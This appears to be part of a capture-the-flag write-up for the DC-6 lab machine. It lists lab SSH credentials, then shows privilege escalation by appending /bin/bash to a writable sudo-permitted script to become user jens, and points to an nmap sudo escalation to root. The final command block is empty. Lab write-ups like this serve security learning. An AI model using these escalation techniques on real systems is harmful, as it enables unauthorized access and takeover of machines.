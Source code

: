 ```
username : graham
password : GSo7isUM1D4
```
# Privilege Escalation
Port 22 is open for ssh and here I try to connect with ssh using creds. Then checked the sudoers list and found that graham can run `/home/jens/backups.sh` as jens without a password.
```
graham@dc-6:~$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```
I checked `backups.sh` and we can edit this file. Edit this file and get shell as jens.
```
graham@dc-6:~$ cat /home/jens/backups.sh 
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
graham@dc-6:~$ vi /home/jens/backups.sh 
graham@dc-6:~$ cat /home/jens/backups.sh 
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
/bin/bash
graham@dc-6:~$ sudo -u jens /home/jens/backups.sh 
jens@dc-6:/home/graham$
```
Now we successfully login as jeans.
Again I checked the sudoers list and found that jens can run `/usr/bin/nmap` as root without a password.
Looking at [GTFObins](https://gtfobins.github.io/gtfobins/nmap/), I see as easy way to get a shell as root.
![gtfobins](/assets/img/dc-6/gtfobins.png)
```
```